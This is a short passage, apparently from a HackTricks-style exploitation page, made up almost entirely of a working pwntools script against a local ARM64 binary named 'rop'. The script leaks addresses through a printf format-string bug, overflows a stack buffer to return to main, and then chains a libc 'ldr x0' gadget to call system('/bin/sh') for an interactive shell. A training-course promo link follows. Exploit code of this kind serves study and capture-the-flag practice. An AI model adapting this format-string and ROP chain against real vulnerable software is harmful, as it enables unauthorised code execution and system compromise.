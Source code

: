 ### Exploit

```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")

def leak_printf(payload, is_main_addr=False):
    p.sendlineafter(b">\n" ,payload)
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    if is_main_addr:
        response = response[:-4] + b"0000"
    return int(response, 16)

def expl_bof(payload):
    p.recv()
    p.sendline(payload)

# Get main address
main_address = leak_printf(b"%21$p", True)
print(f"Bin address: {hex(main_address)}")

# Ret2main
stack_offset = 108
main_call_printf_offset = 0x860 #Offset inside main to call printfleak
print("Going back to " + str(hex(main_address + main_call_printf_offset)))
ret2main = b"A"*stack_offset + p64(main_address + main_call_printf_offset) 
expl_bof(ret2main)

# libc
libc_base_address = leak_printf(b"%25$p") - 0x26dc4
libc.address = libc_base_address
print(f"Libc address: {hex(libc_base_address)}")
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# ret2system
ldr_x0_ret = p64(libc.address + 0x49c40) # ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x78 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
```

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
